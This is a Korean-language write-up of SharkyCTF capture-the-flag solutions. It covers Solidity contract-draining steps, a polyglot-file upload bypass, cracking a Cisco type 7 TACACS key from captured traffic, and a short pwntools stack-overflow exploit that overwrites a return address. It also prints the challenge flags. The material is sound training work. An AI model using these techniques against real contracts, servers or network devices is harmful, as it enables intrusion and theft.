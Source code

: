 # SharkyCTF writeup

[Blockchain](#blockchain-2)

- [Warmup](#warmup97)
- [Logic](#logic195)

[Misc](#misc-1)

- [Erwin's file manager](#erwins-file-manager197)

[Network](#net-1)

- [RattataTACACS](#RattataTACACS167)

[Pwnable](#pwn-1)

- [Give away 0](#give-away-0160)

[Reversing](#rev-3)

[Web](#web-3)

전체적으로 플래그를 **절대** 게싱하지 못하는 문제였다. 길기도 하고 해시가 들어 있었다..ㄷ

출제자 write-up은 [여기](https://gitlab.com/Nofix/sharkyctf/)서 보실 수 있습니다.

## Blockchain (2)

블록체인 문제는 한 사이트로 이루어진다.\
블록체인 문제를 처음 봤는데 처음은... 생각보다 할만하다.\
약간 게싱 문제인 것 같은데 뒷부분은 하나도 모르겠다

![help](Blockchain/help.png)
Help를 보면 위와 같다.\
MetaMask플러그인을 설치하고 테스트넷을 사용한다. ~~메인넷에 있는 이더면 어땠을까~~\
그리고 각 문제마다 Instanciate를 눌러서 contract를 생성하고\
[Ethereum IDE](https://remix.ethereum.org/)를 사용해서 이 contract와 상호작용한다\
그리고 나서 생성한 contract에 있는 모든 돈을 뺏으면 된다.

### Warmup(97)

```ts
pragma solidity = 0.4.25;

contract Warmup {
    bool public locked;

    constructor() public payable {
        locked = true;
    }

    function unlock() public payable {
        require(msg.value == 0.005 ether);
        locked = false;
    }

    function withdraw() public payable {
        require(!locked);
        msg.sender.call.value(address(this).balance)();
    }
}
```

withdraw 함수에 돈을 보내는 코드가 보이는 것 같고, 그 위에 `requre(!locked)`라고 되어있는 것으로 보아 locked를 false로 만들어야 할 것 같다.

locked를 false로 만들 수 있는 함수는 `unlock`이고 그러면 그것을 호출하면 된다.\
unlock이 성공적으로 호출 되기 위해선 0.005 ether를 보내야한다.

ethereum IDE에서 컴파일을 한 후, contract를 추가 해주면 다음과 같이 뜬다\
![warmup](Blockchain/warmup.png)

위쪽 value에 다음과 같이 0.005 ether를 넣어주고 unlock을다누른다\
![warmup-value](Blockchain/warmup%20value.png)

그리고 transaction이 confirm된 후 withdraw를 클릭하면 된다.

> shkCTF{th4t_w4s_4n_1ns4n3_w4rmup_65c8522c0f36ed2566afa7}

### Logic(195)

```ts
pragma solidity = 0.4.25;

contract Logic {
    address public owner;
    bytes32 private passphrase = "th3 fl4g 1s n0t h3r3";

    constructor() public payable {
        owner = msg.sender;
    }

    function withdraw() public {
        require(msg.sender == owner);
        msg.sender.call.value(address(this).balance)();
    }

    function claim(bytes32 _secret) public payable {
        require(msg.value == 0.05 ether && _secret == passphrase);
        owner = msg.sender;
    }
}
```

나머지는 전과 비슷한데 다만 \_secret이 있다. 혹시나 해서 \_secret에 `th3 fl4g 1s n0t h3r3`를 넣어 봤지만 bytes32가 아니라 string이어서 되지 않았다. 그럼 간단하게 이걸 bytes32로 바꾸면 되지 않을 까 생각해서 solidity string to bytes32로 검색해 변환했다.

변환한 값 `0x74683320666c3467203173206e30742068337233000000000000000000000000`와 0.05 ether를 보내니 성공적으로 됐고, withdraw를 호출해 플래그를 얻었다.

> shkCTF{sh4m3_0n_y0u_l1ttl3_byt3_f0f6145540ea8c6ee8067c}

## Crypto (0)

No solve :\

## Forensics (0)

:\

## Misc (1)

### Erwin's file manager(197)

Upload를 보면 다음과 같은 flask 코드가 있다.

```py
@app.route('/upload', methods=["POST"])
def get_file():
	# Wenn die Anfrage eine Datei enthält
	if 'file' in request.files:
		new_file = request.files["file"]
		filename = save_file(new_file)

		# Überprüfen Sie das Dateiformat
		is_ELF = check_ELF(filename)
		is_PDF = check_PDF(filename)
		is_JAR = check_JAR(filename)
		is_JPG = check_JPG(filename)

		if is_ELF and is_JAR and is_PDF:
			put_aside(filename)
			return upload(msg=SECOND_PART_OF_FLAG)
		elif is_ELF and is_JAR:
			put_aside(filename)
			return upload(msg=FIRST_PART_OF_FLAG)
		elif is_JPG and is_JAR:
			put_aside(filename)
			return upload(msg=THIRD_PART_OF_FLAG)
		else:
			# Datei löschen
			remove(filename)
			return upload(error="Bad file")
	else:
		return upload(msg="No file detected")
```

`check~~~` 함수가 어떻게 생겼는지는 알 수 없지만, 예측을 해보면 파일의 signature가 있는지 보는 것 같다. 그래서 단순히 elf, jar, pdf, jpg 파일을 하나씩 구해서 적절히 조합해 풀었다.

이때 pdf파일의 버전 때문에 조금(?) 고생했다.
pdf파일 버전이 1.2일때 잘 된다.

지금 소스코드를 확인해 보니깐 check 함수는 magic모듈과 직접 짠 코드를 사용해서 확인한다.

> shkCTF{Schr0diNgeR\_\_w4s_A_gRea7\_\_p01yg1o7_4e78011325dfbe4a05fd533ea422cc94}

## Net (1)

### RattataTACACS(167)

wireshark로 까보면 TFTP통신을 하는 쪽에서 key 7으로 시작하는 패킷을 볼 수 있다.\
`tacacs-server host 192.168.1.100 key 7 0325612F2835701E1D5D3F2033`

[password cracker](https://www.ifm.net.nz/cookbooks/passwordcracker.html)를 사용해서
키를 알아낼 수 있었다.

key는 `AZDNZ1234FED`이고, 이를 다음과 같이 wireshark preferences에 넣어주면 TACACS+ 패킷을 해석할 수 있다.

![TACACS+ key](Net/tacacsPlus%20key.png)

![TACACS+ flag](Net/tacacsFlag.png)

> shkCTF{T4c4c5_ch4ll3n63_br0}

## Pwn (1)

### Give away 0(160)

바이너리 안에 main, vuln, win_func 함수가 있다.\
main에서 vuln을 호출하고 vuln에서 fgets로 stdin에서 0x32만큼 읽는 구조이다.

vuln에서 RET주소를 win_func주소로 덮으면 된다.

32bit 바이너리인 줄 알았는데 64bit였다... 이것 때문에 잠깐 헤맸다.

```py
from pwn import *

e = ELF("./0_give_away")
p = remote("sharkyctf.xyz", 20333)

win_addr = e.symbols['win_func']
print(win_addr)

code = "A" * 0x20
code += "A" * 8  # SFP
code += p64(win_addr)

p.sendline(code)
p.interactive()
```

> shkCTF{#Fr33_fL4g!!\_<3}

## Rev (3)

## Steganography (0)

:\

## Web (3)
